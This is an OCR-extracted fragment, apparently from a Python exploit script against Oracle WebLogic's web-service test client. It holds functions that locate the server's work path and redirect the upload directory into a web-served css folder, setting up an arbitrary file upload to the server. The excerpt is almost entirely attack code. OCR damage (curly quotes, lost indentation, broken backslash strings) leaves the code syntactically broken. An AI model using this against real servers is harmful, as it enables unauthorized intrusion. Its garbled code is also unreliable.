 ```
except requests.ConnectionError:

exit("[-] Cannot connect url: {}".format(geturl))

if values:

return values[0]

else:

print("[-] Cannot get current work path\n")

exit(request.content)

def get_new_work_path(host):

origin_work_path = get_current_work_path(host)

works = “/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css”

if “user_projects” in origin_work_path:

if “\” in origin_work_path:

works = works.replace("/", “\”)

current_work_home = origin_work_path[:origin_work_path.find(“user_projects”)] + “user_projects\domains”

dir_len = len(current_work_home.split("\"))

domain_name = origin_work_path.split("\")[dir_len]

current_work_home += “\” + domain_name + works

else:

current_work_home = origin_work_path[:origin_work_path.find(“user_projects”)] + “user_projects/domains”

dir_len = len(current_work_home.split("/"))

domain_name = origin_work_path.split("/")[dir_len]

current_work_home += “/” + domain_name + works

else:

current_work_home = origin_work_path

print("[*] cannot handle current work home dir: {}".format(origin_work_path))

return current_work_home

def set_new_upload_path(host, path):

data = {

“setting_id”: “general”,

“BasicConfigOptions.workDir”: path,

```